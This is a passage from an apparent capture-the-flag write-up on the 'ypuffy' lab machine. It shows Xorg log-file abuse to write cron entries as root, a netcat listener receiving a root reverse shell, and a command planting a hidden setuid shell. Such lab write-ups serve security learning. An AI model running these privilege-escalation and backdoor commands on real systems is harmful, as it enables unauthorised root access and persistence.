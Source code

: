 ```
[178588.796] (EE) Please also check the log file at "crontab" for additional information.
[178588.796] (EE) 
[178588.797] (EE) Server terminated with error (1). Closing log file.

```

There’s a ton going on there, and a bunch more I cut out, but all that really matters is the line in the middle with a cron-formatted string saying to initiate a reverse shell back to me every minute.

The next time the minute rolls over, I get a root shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.107.
Ncat: Connection from 10.10.10.107:25572.
/bin/sh: No controlling tty (open /dev/tty: Device not configured)
/bin/sh: Can't find tty file descriptor
/bin/sh: warning: won't have full job control
ypuffy# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)

```

If you do happen to overwrite another file, then it will save the original file by appending `.old`.

Another options for a cron would be to make a setuid shell:

```

ypuffy$ Xorg -fp "* * * * * root cp /bin/sh /usr/local/bin/.df; chmod 4777 /usr/local/bin/.df" -logfile crontab :1 &

```

Wait for the minute to roll, and:

```

ypuffy$ /usr/local/bin/.df 
ypuffy# id
uid=5000(alice1978) euid=0(root) gid=5000(alice1978) groups=5000(alice1978)

```

### WebServer Config

#### Apache

`/etc/httpd.conf` shows how the server is set up:
